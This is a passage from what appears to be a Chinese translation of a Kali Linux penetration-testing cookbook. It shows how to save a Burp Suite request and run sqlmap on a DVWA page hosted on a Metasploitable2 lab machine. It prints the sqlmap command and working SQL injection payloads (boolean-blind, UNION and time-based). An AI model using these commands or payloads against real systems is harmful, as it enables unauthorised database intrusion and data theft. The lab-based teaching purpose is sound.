 为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

为了在 sqlmap 中使用捕获的请求，必须首先将其保存为文本格式。为了这样做，右击 BurpSuite 中的请求内容之后选择`Copy to file`。保存之后，你就可以通过浏览器目录并使用`cat`命令来验证文件内容。

```
root@KaliLinux:~# cat dvwa_capture 
GET /dvwa/vulnerabilities/sqli_blind/?id=test_here&Submit=Submit HTTP/1.1
Host: 172.16.36.135 
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://172.16.36.135/dvwa/vulnerabilities/sqli_blind/ 
Cookie: security=low; PHPSESSID=8aa4a24cd6087911eca39c1cb95a7b0c 
Connection: keep-alive 
```

为了使用捕获的请求，以 `-r`参数执行 sqlmap，值为文件的绝对路径。这个方式通常会极大降低在`sqlmap`命令中需要提供的信息量，因为需要提供的多数信息都包含在文件里了。看看下面的例子：

```
oot@KaliLinux:~# sqlmap -r /root/dvwa_capture --level=5 --risk=3 -p id
[*] starting at 16:44:09
[16:44:09] [INFO] parsing HTTP request from '/root/dvwa_capture' 
```

在上面的例子中，不需要向 sqlmap 传递任何 Cookie 值，因为 Cookie 值已经定义在捕获的请求中了。当 sqlmap 运行时，捕获文件中的 Cookie 会自动在所有请求中使用，像这样：

```
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N 
sqlmap identified the following injection points with a total of 487 HTTP(s) requests: 
--
Place: GET 
Parameter: id
    Type: boolean-based blind 
    Title: OR boolean-based blind - WHERE or HAVING clause    
    Payload: id=-8210' OR (7740=7740) AND 'ZUCk'='ZUCk&Submit=Submit
    
    Type: UNION query    
    Title: MySQL UNION query (NULL) - 2 columns    
    Payload: id=test_here' UNION ALL SELECT NULL,CONCAT(0x3a6f63723a,0x67 744e67787a6157674e,0x3a756c753a)#&Submit=Submit
    
    Type: AND/OR time-based blind    
    Title: MySQL < 5.0.12 AND time-based blind (heavy query)    
    Payload: id=test_here' AND 4329=BENCHMARK(5000000,MD5(0x486a7a4a)) AND 'ARpD'='ARpD&Submit=Submit 
```

sqlmap 能够测试捕获请求中的所有识别的 GET 方法参数。这里，我们可以看到，`ID`参数存在多个 SQL 注入漏洞。

### 工作原理
